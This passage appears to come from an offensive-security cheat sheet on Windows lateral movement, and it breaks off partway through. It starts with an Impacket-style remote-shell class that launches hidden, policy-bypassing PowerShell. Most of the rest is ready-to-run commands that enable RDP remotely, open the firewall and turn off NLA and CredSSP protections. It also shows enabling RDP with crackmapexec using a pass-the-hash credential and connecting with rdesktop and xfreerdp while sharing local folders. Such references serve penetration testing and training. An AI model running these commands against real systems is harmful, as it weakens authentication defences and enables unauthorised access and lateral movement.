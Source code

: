 ```py
class RemoteShell(cmd.Cmd):
    def __init__(self, share, rpc, mode, serviceName, shell_type):
        cmd.Cmd.__init__(self)
        self.__share = share
        self.__mode = mode
        self.__output = '\\\\127.0.0.1\\' + self.__share + '\\' + OUTPUT_FILENAME
        self.__batchFile = '%TEMP%\\' + BATCH_FILENAME
        self.__outputBuffer = b''
        self.__command = ''
        self.__shell = '%COMSPEC% /Q /c '
        self.__shell_type = shell_type
        self.__pwsh = 'powershell.exe -NoP -NoL -sta -NonI -W Hidden -Exec Bypass -Enc '
        self.__serviceName = serviceName
```


## RDP Remote Desktop Protocol 

:warning: **NOTE**: You may need to enable RDP and disable NLA and fix CredSSP errors.

```powershell
# Enable RDP
PS C:\> reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0x00000000 /f
PS C:\> netsh firewall set service remoteadmin enable
PS C:\> netsh firewall set service remotedesktop enable
# Alternative
C:\> psexec \\machinename reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
root@payload$ crackmapexec 192.168.1.100 -u Jaddmon -H 5858d47a41e40b40f294b3100bea611f -M rdp -o ACTION=enable

# Fix CredSSP errors
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f

# Disable NLA
PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").UserAuthenticationRequired
PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)
```

Abuse RDP protocol to execute commands remotely with the following commands;

* `rdesktop`
    ```powershell
    root@payload$ rdesktop -d DOMAIN -u username -p password 10.10.10.10 -g 70 -r disk:share=/home/user/myshare
    root@payload$ rdesktop -u username -p password -g 70% -r disk:share=/tmp/myshare 10.10.10.10
    # -g : the screen will take up 70% of your actual screen size
    # -r disk:share : sharing a local folder during a remote desktop session 
    ```
* `freerdp` 
    ```powershell
    root@payload$ xfreerdp /v:10.0.0.1 /u:'Username' /p:'Password123!' +clipboard /cert-ignore /size:1366x768 /smart-sizing
    root@payload$ xfreerdp /v:10.0.0.1 /u:username # password will be asked